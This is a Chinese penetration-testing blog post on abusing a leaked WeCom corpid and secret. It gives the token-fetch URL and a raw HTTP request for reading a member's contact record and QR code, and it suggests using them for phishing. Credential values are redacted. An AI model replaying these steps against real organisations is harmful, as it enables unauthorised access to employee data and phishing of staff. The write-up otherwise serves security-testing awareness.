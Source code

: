 #  企业微信密钥泄露利用小案例

原创 carrypan  [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 安全培训、渗透测试欢迎来聊

____

___发表于_

收录于合集

测试发现某接口直接返回corpid和secret：

![](https://gitee.com/fuli009/images/raw/master/public/20230714180827.png)

corpid应该是企业微信的id，但是还是要用微信公众平台验证下先，这些名字大家都是随意定义的，乱得很，还是要多尝试，微信公众平台debug地址：https://mp.weixin.qq.com/debug

![](https://gitee.com/fuli009/images/raw/master/public/20230714180828.png)

获取微信access_token出错了，那大概率就是企业微信了，借助企业微信开发者平台验证下：

1、获取access_token：

  * 

    
    
    https://qyapi.weixin.qq.com/cgi-bin/gettoken?corpid=&corpsecret=

![](https://gitee.com/fuli009/images/raw/master/public/20230714180829.png)  

2、查询下access_token的权限：

https://open.work.weixin.qq.com/devtool/query

![](https://gitee.com/fuli009/images/raw/master/public/20230714180830.png)

  

这个access_token没有部门的信息，所以查询部门是没戏了，查了下企业微信开发者文档，可以直接根据userid查询成员信息。

3、危害证明，直接读取通讯录成员信息，以******为例：

  *   *   *   *   * 

    
    
    GET /cgi-bin/user/get?access_token=&userid= HTTP/1.1Host: qyapi.weixin.qq.comUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0Sec-Fetch-Mode: corsSec-Fetch-Site: same-origin

![](https://gitee.com/fuli009/images/raw/master/public/20230714180832.png)  

访问服务端返回的userOR，这是企业微信用户的二维码：  

  * 

    
    
    https://open.work.weixin.qq.com/wwopen/userQRCode?vcode=

![](https://gitee.com/fuli009/images/raw/master/public/20230714180833.png)

直接扫描即可添加，后期可以进行钓鱼攻击等：

![](https://gitee.com/fuli009/images/raw/master/public/20230714180834.png)

更多其它玩法，具体可参考企业微信开发者平台：  

https://developer.work.weixin.qq.com/document/path/91039

![](https://gitee.com/fuli009/images/raw/master/public/20230714180836.png)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

